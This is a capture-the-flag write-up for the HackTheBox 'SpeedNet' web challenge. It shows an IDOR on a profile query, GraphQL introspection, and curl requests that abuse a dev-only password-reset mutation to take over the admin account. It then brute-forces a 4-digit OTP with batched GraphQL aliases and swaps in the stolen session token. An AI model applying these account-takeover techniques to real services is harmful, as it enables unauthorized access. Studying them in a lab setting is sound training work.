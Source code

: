 ```yaml
---
title: 'HackTheSystem: SpeedNet'
author: lict
categories: [HackTheBox]
tags: [web, graphql, IDOR, OTP, bruteforce]
render_with_liquid: false
media_subpath: /images/hackthesystem_speednet/
---
```


The challenge description:
```
Speednet is an Internet Service Provider platform that enables users to purchase internet services. We invite you to participate in our bug bounty program to identify any potential vulnerabilities within the application and retrieve the flag hidden on the site. For your testing, we have provided additional email services. Please find the details below:  
Email Site: `http://IP:PORT/emails/` Email Address: test@email.htb
```

We can make an account here, let's proceed with that. When we visit the `/profile` endpoint, the browser sends the following request to load our data:

![20250629182719.png](20250629182719.png)

Let's change the `userId` parameter to `1` and see if we can get the `admin`'s data:

![20250629182811.png](20250629182811.png)

It worked! I saved the output we got and tried to send the introspection query.
Here's the request body I sent to `/graphql` endpoint:
```
{"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"}
```

I noticed this interesting mutation, seems like we can reset the `admin`'s password:

![20250629183152.png](20250629183152.png)

I used the following `curl` command to proceed:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation GetAdminResetToken { devForgotPassword(email:   \"admin@speednet.htb\") }"}'
{"data":{"devForgotPassword":"Dev only! Password reset token: 885ba666-3dfd-4175-9fdc-406c2e15dcbc"}}

```

Then, using the token I got I reset the admin's password:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation ChangeAdminPassword { resetPassword(token: \"885ba666-3dfd-4175-9fdc-406c2e15dcbc\", newPassword: \"Lictwashere123!\") }"}'
{"data":{"resetPassword":"Password has been reset successfully"}}

```

It worked, I was able to login as admin but it asked for an OTP:

![20250629183832.png](20250629183832.png)

I clicked resend OTP hoping it will be exposed somewhere, but it just exposed a token:

![20250629184139.png](20250629184139.png)

I've decided to `bruteforce` the OTP using `graphql aliases`. I vibe coded a tool again, made small changes, grabbed the token and ran it hoping it will work, and BOOM!

```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ python3 hack_otp.py

[*] Starting attack for 4-digit OTPs...
[*] Target: http://94.237.62.135:45936/graphql
[*] Batch size: 200

[*] Sending batch: 0000 -> 0199
[*] Sending batch: 0200 -> 0399
[*] Sending batch: 0400 -> 0599
[*] Sending batch: 0600 -> 0799
[*] Sending batch: 0800 -> 0999
[*] Sending batch: 1000 -> 1199
[*] Sending batch: 1200 -> 1399
[*] Sending batch: 1400 -> 1599
[*] Sending batch: 1600 -> 1799
[*] Sending batch: 1800 -> 1999

==================================================
[+] SUCCESS! OTP FOUND: 1814
==================================================

[+] Full Response from Server:
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ",
  "user": {
    "id": 1,
    "email": "admin@speednet.htb"
  }
}

[+] FINAL SESSION TOKEN:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ

```

I signed into my own account and switched tokens in `Local Storage` from mine to the hacked one. I refreshed the page using `CTRL+SHIFT+R` and noticed that I am logged in as `admin@speednet.htb`. I just navigated to the `Billing` tab, scrolled the page down and grabbed the flag!

![20250629184844.png](20250629184844.png)
